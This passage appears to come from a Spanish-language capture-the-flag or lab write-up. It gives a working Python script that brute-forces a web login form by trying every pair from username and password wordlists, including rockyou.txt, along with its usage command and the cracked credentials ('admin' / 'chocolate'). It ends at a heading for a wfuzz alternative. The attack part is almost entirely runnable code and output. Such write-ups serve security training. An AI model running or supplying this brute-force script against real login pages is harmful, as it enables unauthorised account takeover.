 ```python
    with open(filepath, "r", encoding="utf-8", errors="ignore") as f:
        return [line.strip() for line in f if line.strip()]

def brute_force(userlist, passlist):
    for user in userlist:
        for password in passlist:
            data = {
                "username": user,
                "password": password
            }
            try:
                response = requests.post(url, headers=headers, data=data, timeout=10)
                if "Credenciales incorrectas" not in response.text:
                    print(f"\n✅ ¡Credenciales válidas encontradas! -> Usuario: {user} | Contraseña: {password}")
                    return
                else:
                    print(f"❌ {user}:{password}")
            except requests.exceptions.RequestException as e:
                print(f"⚠ Error con {user}:{password} -> {e}")

    print("\n🚫 No se encontraron credenciales válidas.")

if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("Uso: python script.py /ruta/usuarios.txt /ruta/passwords.txt")
        sys.exit(1)

    users = load_words(sys.argv[1])
    passwords = load_words(sys.argv[2])
    brute_force(users, passwords)
```

Uso:

```bash
python script.py RUTA_DICCIONARIO_USUARIOS/users.txt /usr/share/wordlists/rockyou.txt
```

Resultado:

```
✅ ¡Credenciales válidas encontradas! -> Usuario: admin | Contraseña: chocolate
```

Mensaje tras login:

```
¡Login correcto! Enhorabuena! De parte del usuario balutin, te damos la enhorabuena
```

---

## Fuerza bruta con wfuzz (alternativa):
